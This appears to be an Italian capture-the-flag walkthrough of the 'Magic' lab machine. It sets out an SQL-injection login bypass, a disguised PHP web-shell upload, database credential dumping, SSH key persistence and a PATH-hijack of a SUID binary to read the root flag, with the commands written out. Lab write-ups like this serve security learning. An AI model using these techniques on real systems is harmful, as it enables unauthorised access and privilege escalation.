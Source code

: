 ## Information Gathering

Fase iniziale di IG ha rivelato un servizio sulla porta 22 e sulla 80. Visito la pagina in ascolto sulla porta 80 e trovo un servizio per l'image uploading. 

Tramite dirbuster scopro le pagine upload.php e login.php. Visito la upload form ma non riesco ad accedere perché devo essere loggato. Quindi passo al form di login.

Giro per il sitoweb alla ricerca di credenziali ma non ne trovo. Quindi provo con una basica sqli utile a superare l'authentication schema:

```
username: 1' OR True; --
password: abcabcabc
```

(NOTA: a FE c'è un filtro caratteri. Per bypassarlo modifico la richiesta con Burp) Riesco così a loggarmi ed accedo direttamente al form di image upload.

## Web Exploitation

Arrivato al form di upload capisco che devo caricare una web shell in php, uso b374k. Adesso devo capire come caricarla bypassando tutti i controlli di sicurezza. Alla fine, ci sono riuscito effettuando: 

* Creo png da 1px
* Rinomino il png in image.php.png
* Carico l'immagine tramite l'uploader, quindi con Burp intercetto la richiesta ed aggiungo in coda il codice sorgente di __b374k
* Visito il path dov'è collocata la risorsa (http://magic/images/uploads/a.php.png) 

Ed ecco che mi ritrovo davanti la webshell! 

```
########### ########### ########### ###########
Alternativa: usare msfvenom per generare una meterpreter_reverse_tcp, quindi stabilire un handler su msfconsole in ascolto sulla porta stabilita. Quindi aprire una shell, renderla interattiva con bash -i, quindi:

www-data@ubuntu:/var/www/Magic/images/uploads$ 
########### ########### ########### ###########
```
## Privilege Escalation

### www-data -> Theseus

Navigo nelle directory del webserver e rintraccio le credenziali di connessione al db:
```
private static $dbUsername = 'theseus';
private static $dbUserPassword = 'i[...]s';
```

Provo a collegarmi via ssh con le credenziali trovate ma la coppia kpub e kpriv non è riconosciuta. Quindi utilizzo le creds per accedere al db. Tuttavia, tramite:
```
mysql -u theseus -p Magic
```
Non riesco a collegarmi quindi uso mysqldump rintracciato fra i binary a mia disposizione.

Effettuo così il dump delle vere credenziali di Theseus.

Ultimo step prima dell'user flag è spawnare una tty shell (considerando che via ssh non ne ho accesso):
```
python3 -c "__import__('pty').spawn('/bin/bash')"
(unico comando funzionante fra tutti i metodi!)
```

Per mantenere la persistenza appendo la mia kpub dentro al file .ssh/authorized_keys, riuscendo così finalmente ad accedere via ssh usando la mia kpriv! 

### Theseus -> Root

Dopo essermi collegato in SSH mi sposto in /tmp e carico un po di script, LSE.sh, LE.sh e li lancio. Quello che emerge è veramente poco. Dopo ore di analisi noto un binario con SUID: sysinfo. 

Analizzo il binario con:

```
strings sysinfo
```
e noto che vengono richiamata diversi binari esterni. Ne scelgo uno, free. 

Quindi l'idea di base è di creare un binario finto clone di "free" in cui gli do il comando "cat /root/root.txt". Quindi, una volta lanciato sysinfo, avendo alterato la variabile globale PATH, lui andrà ad eseguire quel binario da me creato. In sostanza questo si traduce nei seguenti comandi:

```
PATH=.:$PATH

touch free

echo "cat /root/root.txt" > free

chmod +x free

sysinfo

```

Questo è quanto! 🍾
